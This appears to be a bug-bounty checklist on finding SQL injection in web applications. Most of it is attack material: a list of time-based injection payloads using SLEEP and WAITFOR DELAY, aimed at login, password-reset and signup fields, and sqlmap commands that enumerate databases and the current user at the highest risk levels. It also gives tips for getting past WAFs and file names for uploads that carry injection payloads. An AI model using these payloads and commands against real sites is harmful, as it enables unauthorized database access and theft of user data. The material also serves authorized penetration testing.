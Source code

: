 ## How to find SQL injectiosn vulnerability?

## 1) Logical Operation
One of the best ways to confirm a SQL injection is by making it operate a logical operation and having the expected results.
For example: if the GET parameter `?username=Peter` returns the same content as `?username=Peter'` or `?username=Peter+'1'='1` then, you found a SQL injection.

## 2) Time Based SQL Injection
Most relative place for inject SQL payloads as [POST Request] are in Login page (username parameter), Forget password page (username parameter), Singup Page (firstname and last name) 


Payloads:
```
orwa' AND (SELECT 6377 FROM (SELECT(SLEEP(5)))hLTl)--
(SlEeP%09(14-(5-2)))
')) or sleep(5)=' 
' WAITFOR DELAY '0:0:5'-- 
;waitfor delay '0:0:5'-- 
);waitfor delay '0:0:5'-- 
';waitfor delay '0:0:5'-- 
";waitfor delay '0:0:5'-- 
');waitfor delay '0:0:5'-- 
");waitfor delay '0:0:5'-- 
));waitfor delay '0:0:5'-- 
0"XOR(if(now()=sysdate(),sleep(12),0))XOR"Z
0"XOR(if(now()=sysdate(),sleep(12),0))XOR"Z%20=%3E
0'XOR(if(now()=sysdate(),sleep(3),0))XOR'Z
```

![image](https://user-images.githubusercontent.com/63053441/155585150-722a2ec2-787d-42bd-85d7-30c6401f8031.png)

### How To Test?

 1) Use this [wordlist](https://raw.githubusercontent.com/0xmaximus/Galaxy-Bugbounty-Checklist/main/SQL%20injection/SQL.txt) with intruder and inject all payloads in relative parameters and headers(User-Agent, Cookies, Referer and ...)  
 2) After you got DELAY save request in txt file and use sqlmap for confirm and exploit vulnerability

```
sqlmap -r request.txt -p parameter-name --force-ssl --level 5 --risk 3  --dbs --hostname --current-user
sqlmap -r txt -p user --force-ssl --level 5 --risk 3
sqlmap -r request.txt -p email/username --force-ssl -level 5 --risk 3 --dbms="MySQL" --test-filter="MySQL >= 5.0.12 AND time-based blind (query SLEEP)"
```

Sometimes you cant exploits because most modern web apps use WAF & user input validation before execute it so you can try with:
- change request form POST to GET or in reverse
- Use `--random-agent`


## 3) File Uploaders SQLi
Save file with this names and upload it in site
```
--sleep(15).png
--sleep(6*3).png
--sleep(25).png
--sleep(5*7).png
pic.png;waitfor delay '0:0:5'-- 
```

